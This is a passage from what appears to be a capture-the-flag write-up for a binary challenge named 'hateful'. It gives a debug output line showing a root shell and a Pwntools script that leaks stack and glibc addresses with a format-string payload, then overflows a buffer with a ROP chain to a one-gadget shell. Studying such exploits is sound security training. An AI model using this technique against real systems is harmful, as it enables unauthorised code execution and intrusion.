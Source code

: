    ```bash
   [DEBUG] Received 0x5 bytes:                                                            
       b'root\n'                                                                          
   root                                                                                   
   ```

The script using Pwntools to solve the challenge is shown below.

```python
from pwn import *

context.log_level = 'debug'
context.terminal = ['tmux', 'splitw', '-h', '-f']

CHALLENGE = "./hateful"
p = gdb.debug(['./ld-linux-x86-64.so.2', '--library-path', '.', CHALLENGE], '''
    file hateful
    ni
    ni
    b *(send_message+111)
    b *(send_message+183)
    continue
''')

# Stage 1: Leak stack address and glibc base address
print(p.recvuntil(b">> ").decode())
payload = b"yay"
p.sendline(payload)
print(p.recvuntil(b">> ").decode())
payload = b"%p%p%p%p%p"
p.sendline(payload)
print(p.recvuntil(b"email provided: ").decode())
addrs = p.recvuntil(b"\n").decode().strip()
stack_addr = int(addrs[0:14], 16) + 0x2190
glibc_base_addr = int(addrs[-14:], 16) - 0x1d2a80
print(f"stack_addr: {hex(stack_addr)}")
print(f"glibc_base_addr: {hex(glibc_base_addr)}")

# Stage 2: Form ROP chain with one gadget and send payload
glibc_r = ROP("libc.so.6")
chain = [
    glibc_r.rdi.address + glibc_base_addr,  # pop rdi; ret
    0x0,    # NULL
    glibc_r.r13.address + glibc_base_addr,  # pop r13; ret
    0x0,    # NULL
    0xd511f + glibc_base_addr  # one gadget
]
print(p.recvuntil(b"now please provide the message!\n").decode())
payload = b"A" * 0x3f0 + p64(stack_addr) + b"".join([p64(c) for c in chain])
p.sendline(payload)

p.interactive()
```
